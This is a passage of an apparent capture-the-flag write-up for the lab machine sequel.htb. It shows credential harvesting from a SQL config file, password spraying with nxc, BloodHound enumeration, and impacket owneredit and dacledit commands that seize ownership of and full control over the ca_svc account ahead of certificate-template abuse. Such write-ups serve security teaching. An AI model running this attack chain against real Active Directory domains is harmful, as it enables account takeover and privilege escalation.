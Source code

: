 ```powershell
PS C:\SQL2019\ExpressAdv_ENU> type sql-Configuration.INI
<SNIP>
SQLSVCPASSWORD="<REDACTED>"
SAPWD="<REDACTED>"
```

Doing another password spray with the newly found password, we can find that ther user `ryan` uses the same password. 

```bash
nxc smb $FQDN -u users -p $(cat passwords | tail -n1)

SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
<SNIP>
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ryan:<REDACTED>
```

### BloodHound

We can use `bloodhound` to enumerate the privileges of the `ryan` user. We can use the `SharpHound` tool to do this locally, since ryan has `WinRM` privileges over the machine, or we could do it remotely using `rusthound-ce` 

```bash
rusthound-ce -u "ryan" -p "<REDACTED>" -f "$FQDN" -d "$DOMAIN" -n "$IP" -c All -z
```

Looking at the `bloodhound` graph, we can see that the user `ca_svc` is an important target because it is possible to take vantage of the `ESC4` with him. To reach this target, we see that the user `ryan` has `WriteOwner` permissions on this user, which means that we can set the object owner to `ryan` and then give `GenericAll` permissions to the `ryan` user over the `ca_svc` user and then perform a `ShadowCredentials` attack (or many others like force password, targeted kerberoast). 

![NON](file-20250525203458900.png)

We can do this with the `owneredit.py` from `impacket`:

```
owneredit.py -new-owner ryan -target ca_svc -action write "$DOMAIN/ryan:<REDACTED>"

Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies

[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!
```

Now we can set the `GenericAll` permissions to the `ryan` user over the `ca_svc` user:

```bash
dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' "$DOMAIN/ryan:<REDACTED>"

Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies

[*] DACL backed up to dacledit-20250525-200653.bak
[*] DACL modified successfully!
```
